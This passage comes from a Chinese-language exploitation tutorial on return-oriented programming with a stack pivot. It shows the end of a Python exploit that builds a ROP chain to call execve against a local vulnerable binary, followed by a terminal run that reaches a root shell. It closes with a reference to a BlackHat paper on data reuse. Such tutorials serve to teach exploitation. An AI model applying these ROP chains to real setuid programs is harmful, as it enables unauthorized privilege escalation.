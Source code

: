 ```py
buf += conv(execve_null_arg)
execve_argv_dst += 1
buf += conv(strcpy_plt)
buf += conv(ppr_addr)
buf += conv(execve_argv_dst)
buf += conv(execve_null_arg)
#Stack Pivot
buf += conv(pr_addr)
buf += conv(cust_base_esp)
buf += conv(lr_addr)

print "Calling vulnerable program"
call(["./vuln", buf])
```

执行上述利用代码，我们会获得 root shell（在下面展示）：

```
$ python exp.py 
Calling vulnerable program
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA???????????????????????????????????????@???0???????d????e?U???f?0???g?C???h????i?U???j?0???k?C???l?`???m?`???n?`???o?`???p?????q???r?0???s?C???t?????u???v?0???w?C???x?`???y?`???z?`???{?`???`?T???a?W???b?V???c?^???d?T???e?b???f?????h?????i???j?0???k?C???l?`???m?`???n?`???o?`???`?i?
Len:1008
# id
uid=1000(sploitfun) gid=1000(sploitfun) euid=0(root) egid=0(root) groups=0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),109(lpadmin),124(sambashare),1000(sploitfun)
# exit
$
```

## 参考

[PAYLOAD ALREADY INSIDE: DATA REUSE FOR ROP EXPLOITS](http://media.blackhat.com/bh-us-10/whitepapers/Le/BlackHat-USA-2010-Le-Paper-Payload-already-inside-data-reuse-for-ROP-exploits-wp.pdf)